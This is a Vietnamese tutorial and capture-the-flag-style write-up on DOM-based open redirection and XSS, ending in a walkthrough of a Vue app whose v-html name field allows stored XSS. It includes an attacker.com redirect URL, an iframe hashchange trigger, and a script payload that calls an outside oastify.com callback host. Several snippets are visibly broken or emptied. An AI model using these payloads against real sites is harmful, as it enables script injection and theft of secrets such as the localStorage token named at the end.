# **DOM-Based Attacks**
## **1. The DOM Explained**
**DOM** (*Document Object Model*) là chương trình giao diện cho phép hiển thị các tài liệu, tài nguyên web

## **2. Modern Frontend Framework**
Nếu một web được dựng lên thông thường thì mỗi lần user gửi request lên server và server xử lý rồi lại tiếp tục gửi lại response chứa HTML, rồi client nhận rồi render lại thành trang web để user có thể tương tác

Điều này tạo nên sự cồng kềnh và giảm hiệu năng của web

Vì vậy hiện nay có sự xuất hiện của mô hình được gọi là **single page application** (SPA) - có nghĩa rằng mỗi lần web chỉ load HTML vào DOM và tận dụng JS để có thể update dữ liệu được server trả về chứ không thực hiện render lại toàn bộ DOM từ ban đầu

Những framework hỗ trợ tạo những ứng dụng web SPA như **Angular**, **React** và **Vue**

### **Confusing of the Security Boundary**
Lầm tưởng về việc "client chỉ thực điều khiển ở phía trình duyệt của người dùng, còn phía server mới là bên phụ trách việc filter chính" - nó là nguyên dân dẫn đến việc trình duyệt của người dùng bị bypass dẫn đến lỗ hổng phía client

Ví dụ, dev chỉ thực hiện disable nút submit hành động được thực hiện bởi một số quyền nhất định ở HTML, attacker vẫn có thể thực hiện gửi đi request bằng cách gửi bằng các công cụ chuyên dụng như Postman, Burp hoặc chỉ đơn giản là thực hiện enable lại nút đó rồi gửi đi ngay trong trình duyệt, nếu phía server thực hiện việc xác thực không chắc chắn, nó có thể dẫn đến những lỗ hổng khác

### **Insufficient User Input Validation**
Lỗi tiếp theo là do 2 bên frontend và backend không hiểu ý của nhau, bên này lại chờ bên kia thực hiện filter, sanity input của người dùng; hoặc có thể là phía frontend thực hiện validate chặt nhưng phía backend lại không thực hiện validate chặt như vậy

Hoặc có thể xảy ra việc một web A không thực hiện validate dữ liệu và dữ liệu của nó lại được truyền cho web B, từ đó có thể khai thác từ web A sang web B

## **3. DOM-Based Attacks**
Điều gì sẽ xảy ra nếu những quy tắc bảo vệ dữ liệu như là validate hay sannity đều chỉ được triển khai ở phía server-side? Đó chính là nguyên nhân dẫn đến những lỗ hổng liên quan đến DOM

### **The Source and the Sink**
Có thể nói Source chính là input mà người dùng truyền vào, Sink là cách mà JS thực hiện xử lý input của người dùng tại trình duyệt, nếu chúng input của người dùng không được validate cẩn thận nó có thể dẫn đến DOM-Based attack

### **DOM-based Open Redirection**
Ví dụ trong code frontend có chức năng thực hiện điều hướng người dùng sang một site khác:

```javascript
goto = location.hash.slice(1) if (goto.startsWith('https:')) {   location = goto; }
```

Phần này có nghĩa là lấy giá trị của fragment, sau đó kiểm tra nếu chuỗi bắt đầu bằng `https:` (*tức URL*) thì thực hiện điều hướng người dùng sang đó

Nếu web không có bước nào validate dữ liệu này, attacker có thể điền kiểu:
```
https://realwebsite.com/#https://attacker.com
```

Khi mà link được mở, trình duyệt của người dùng sẽ bị điều hướng sang trang web độc hại

## **4. DOM-based XSS**
**DOM-base XSS** là lỗ hổng thuộc họ DOM-base XSS nhưng phổ biến và mạnh mẽ nhất, nó cho phép attacker có thể chèn JS vào trình duyệt của người dùng và thực hiện full control trên trình duyệt

Source phổ biến đó chính là **URL fragment**, nó được truy cập bằng `window.location`, những nhiều trình duyệt có thể encode fragment, từ đó có thể giảm thiểu được **DOM XSS** 

### **DOM-based XSS via jQuery**
```javascript
$(window).on('hashchange', function() {
	var element = $(location.hash);
	element[0].scrollIntoView();
});
```

Web thực hiện việc xem sự thay đổi của fragment để có thể thực hiện cuộn xuống chỗ đánh dấu fragment đó\
Ta có thể thực hiện chèn lệnh đọc vào bằng URL 

```
https://realwebsite.com#</img>
```

Nhưng URL này chỉ thực hiện trigger ở phía trình duyệt của chúng ta, vì hàm này cần có sự thay đổi về giá trị của fragment, nên ta cần có một URL thực hiện việc thay đổi tự động này

```
<iframe src="https://realwebsite.com#" onload="this.src+=''
```

URL này thực hiện việc tải xong toàn bộ trang web, tức ban đầu trên URL chỉ có `https://realwebsite.com#`, nhưng sau khi load xong toàn bộ trang, sự kiện onload dẽ được kích hoạt và thực hiện thêm vào sau một giá trị fragment là ``, khi đó URL trở thành `https://realwebsite.com#`, khi đó đã có sự thay đổi về hash kích hoạt sự kiện `hashchange` trong logic của ứng dụng, từ đó thực thi mã độc

### **DOM-Based XSS vs Conventional XSS**
**DOM-Based XSS** khác những XSS thông thường là ở phía server đã thực hiện validate dữ liệu đầy đủ rồi nhưng khi JS được trả về cho client thì có chứa logic lỗi, nó thực hiện truyền thẳng untrusted data vào dẫn đến JS được thực thi tùy ý

## **6. DOM-Based Attack Challenge**


Ban đầu web cho thực một trang web có chức năng thêm, sửa, xóa ngày sinh của user, nhưng ta chỉ thực hiện được chức năng thêm và sửa, còn chức năng xóa sẽ không được đo cần có `secret` mới có thể xóa







<br>



Web cũng có nối là ta có thể thực hiện lấy được thông tin nhạy cảm của người dùng, nhưng khi ta thực hiện hàm thông báo lên màn hình như `alert` sẽ khiến người dùng cảnh giác và không dùng web nữa nên có thể ta không lấy được thông tin qua lỗ hổng nữa

Ta quan sát lần lượt 3 request của 3 thao tác



Thao tác add ngày sinh của người dùng sẽ thực hiện bằng method `POST`



Thao tác sửa ngày sinh được thực hiện bằng method `PUT`



Thao tác xóa được thực hiện bằng method `GET` còn có thêm cả tham số `secret` kèm theo nên ta không thể thực hiện xóa được ngày sinh

Và ta nhận thấy rằng trang web được hiện thị trên port `5173` nhưng khi thực hiện những hành động thì lại ở port `5001`



Ta thấy rằng tên và ngày sinh của người dùng được hiển thị bằng thẻ `<td>`, nó có thể thực hiện được mã JS\
Ta thử bằng payload vào cả 2 trường

```js
<script>fetch('https://oe6w56e1rlworqtoydnjbnv15sbjz9ny.oastify.com')</script>
```



Ta có thể thấy rằng trường tên người dùng có thể hiển thị được thể `<script>` mà không thực hiện encode như trường ngày sinh, nhưng hàm `fetch` phía trong lại không được hiểu như là mã **JS**, vì vậy ta tập trung vào trường tên người dùng 
Ta thử sử dụng payload khác dùng thẻ ``:

```js

```



Ở đây, hàm `fetch` bên trong thẻ `` đã được hiểu như mã **JS**



Ở phía BurpCollaborator, ta có thể thấy được những request được gửi từ victim gửi về, những **IP** phần khoanh đỏ là **IP** của victim, từ đây ta có thể xác nhận được web có lỗ hổng **XSS** tại trường **tên người dùng**\
Dường như ta chỉ thấy được victim thực hiện request DNS chứ không thực hiện request HTTP



Ta thực hiện xem source code của web, có thể thấy được web vẫn đang bật chế độ debug thông qua các file `.vue`\
Bởi vì bình thường trình duyệt chỉ có thể đọc và thực thi các file liên quan đến **HTML, CSS, JS**, vậy nên không thể có chuyện có code `Vue` ở đây được, vì vậy ta có thể có được nhiều thông tin hữu ích trong mã nguồn này

>Lưu ý, nếu web chuẩn chỉnh sẽ không bao giờ trả về file Vue thô như thế này, nó được biên dịch thành file `.js` nhưng kèm theo là rút gọn tên biến, làm rối, dù browser có thể sử dụng đúng chức năng của đoạn code này nhưng không thể dịch ngược lại dễ dàng



>Đây là file gốc phía server đáng ra không được trả về cho người dùng



>Ta có thể thấy được file này có tên giống file gốc nhưng thực chất đã được biên dịch và có thể nhìn khác; trong thực tế nó được làm rối đến mức ta không thế đọc được rõ như thế này



Tại file `Bdays.vue`, ta có thể thấy được web có dùng thẻ `v-html` cho trường `bday.person`, và lại dùng `{{}}` (*cú pháp nội suy văn bản*) để thực hiện hiển thị thông tin của `bday.bdate`\
`v-html` là một thẻ có thể thực hiện hiển thị HTML cho trang web\
`{{}}` chỉ thực hiện gen giá trị của biến đó ra dạng string

Ví dụ: ta có `bday.person` = `<h1>hello</h1>`
- Khi dùng `v-html` để hiện thị `<td><p v-html=bday.person></p></td>` thì nó sẽ hiển thị ra một cột chỉ có nội dung `hello` và hiệu ứng HTML của thẻ `<h1>`
- Khi dùng `{{}}` để hiện thị: `{{bday.person}}` thì nó sẽ hiển thị ra nguyên nội dung `<h1>hello</h1>` chứ không được xử lý như HTML nữa

Vì vậy đây chính là lý do phần **tên người dùng** lại bị XSS mà phần **ngày sinh** lại không bị



Ta tiếp tục đọc đến cuối, ta có thể thấy được tham số secret được lưu vào `localStorage`

